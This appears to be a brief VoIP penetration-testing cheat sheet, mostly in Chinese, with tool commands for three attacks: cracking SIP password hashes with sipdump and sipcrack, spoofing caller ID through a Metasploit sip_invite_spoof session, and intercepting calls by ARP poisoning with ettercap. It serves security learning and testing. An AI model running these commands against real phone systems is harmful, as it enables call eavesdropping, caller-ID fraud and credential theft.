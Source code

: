 ## http://www.concise-courses.com/learn/how-to-exploit-voip/

### 破解 SIP 密码

	用 wireshark 抓包生成 test.pcap
	sipdump pashash.txt -p test.pcap 从数据包中获取哈希密码
	sipcrack pashash.txt -w passlist.txt 通过字典文件 passlist.txt 破解哈希密码

### 使用 wireshark 监听数据包中的语音

	wireshark - statistics - hierarchy
	（wireshark - 统计 - 等级制度）
	发现多数流量都是 Real-Time Transport Protocol
	wireshark - Telephony - VoIP Calls
	（wireshark - 电话 - VoIP Calls）
	
### SIP Invite Spoof(fake call)

	http://www.youtube.com/watch?v=GkdyQVh36qc
	this module will create a fake SIP invite request making the targeted device ring and display fake caller id information
	The spoofed caller is send MSG(fake caller id)
	Use metasploit and sip phone(SFLphone)
	
	root@kali:~# msfconsole
	msf > search sip
	msf > use auxiliary/voip/sip_invite_spoof
	msf auxiliary(sip_invite_spoof) > show options
	msf auxiliary(sip_invite_spoof) > set DOMAIN 15261@sip.sflphone.org(软电话使用的域)
	msf auxiliary(sip_invite_spoof) > set SRCADDR 37.244.213.229(本机地址)
	msf auxiliary(sip_invite_spoof) > set RHOSTS 37.244.213.229/24
	msf auxiliary(sip_invite_spoof) > run
	
### Eavesdrop on VoIP Conversations
	http://www.youtube.com/watch?v=YGi4rSDofTs
	ettercap -T -M ARP -i <interface> // //
	使用 wireshark 抓包
	
	http://www.ehacking.net/2012/06/voip-sniffing-cracking-phishing.html

	http://www.backtrack-linux.org/wiki/index.php/Pentesting_VOIP